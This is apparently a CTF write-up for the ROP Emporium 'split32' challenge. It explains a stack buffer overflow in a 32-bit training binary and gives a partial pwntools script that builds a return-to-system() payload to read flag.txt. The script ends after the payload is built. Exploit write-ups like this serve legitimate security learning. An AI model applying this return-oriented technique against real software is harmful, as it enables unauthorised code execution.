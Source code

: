 Although there was not much information given this time, we know that there is a buffer overflow vulnerability within the binary. 

![run](/assets/images/rop_emp/split32/run.png)

This is because the binary tries to read 96 bytes from the user even though the buffer only can hold 32 bytes.

![read](/assets/images/rop_emp/split32/read.png)
![stack](/assets/images/rop_emp/split32/stack.png)

However, unlike the previous challenge we there is no `ret2win` function that we can call. Instead we need to setup the stack such that we are calling `system()` with the argument `/bin/cat flag.txt`. The offset we use is the same as challenge 1 which is 44 bytes. 

Thus, the following script was used to solve the challenge. Note that we have to add a 4 byte padding after the address of system as we have to account for the return address.

```python
#!/usr/bin/env python3

from pwn import *

def main():
    elf = ELF('split32')
    p = process('./split32')
    
    print(p.recvlines(timeout=1))
    system = elf.symbols['system']
    bin_cat = next(elf.search(b'/bin/cat flag.txt'))
    
    print(f"system is at {hex(system)}")
    print(f"/bin/cat is at {hex(bin_cat)}")
    
    payload = b'A' * 44 + p32(system) + b"B" * 4 + p32(bin_cat)
    
```